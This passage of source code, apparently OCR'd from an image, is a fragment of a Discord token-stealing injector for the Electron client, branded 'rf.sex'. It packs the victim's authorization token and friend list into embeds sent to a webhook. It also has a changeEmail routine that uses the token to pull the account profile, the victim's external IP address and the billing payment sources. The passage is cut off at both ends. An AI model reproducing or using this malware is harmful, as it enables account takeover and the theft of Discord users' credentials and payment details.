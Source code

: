                                                     inline: !0
                                                }, {
                                                    name: "token:",
                                                    value: `\`\`\`${token}\`\`\``,
                                                    inline: !1
                                                }, ],
                                                "author": {
                                                    "name": "rf.sex"
                                                },
                                                "footer": {
                                                    "text": "better than all."
                                                },
                                                "thumbnail": {
                                                    "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                                }
                                            }, {
                                                "title": `total friends (${totalFriends()})`,
                                                "color": config['embed-color'],
                                                "description": calcFriends(),
                                                "author": {
                                                    "name": "rf.sex"
                                                },
                                                "footer": {
                                                    "text": "better than all."
                                                },
                                                "thumbnail": {
                                                    "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                                }
                                            }]
                                        }
                                        sendToWebhook(JSON.stringify(params))
                                    })
                                })
                            })
                        })
                    }
                })
            })
        })
    })
}

function changeEmail(newemail, password, token) {
    const window = BrowserWindow.getAllWindows()[0];
    window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://discord.com/api/v8/users/@me", false );
                            xmlHttp.setRequestHeader("Authorization", "${token}");
                            xmlHttp.send( null );
                            xmlHttp.responseText;`, !0).then((info) => {
        window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://www.myexternalip.com/raw", false );
                            xmlHttp.send( null );
                            xmlHttp.responseText;
                            `, !0).then((ip) => {
            window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/billing/payment-sources", false );
                            xmlHttp.setRequestHeader("Authorization", "${token}");
                            xmlHttp.send( null );
                            xmlHttp.responseText`, !0).then((info3) => {
                window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();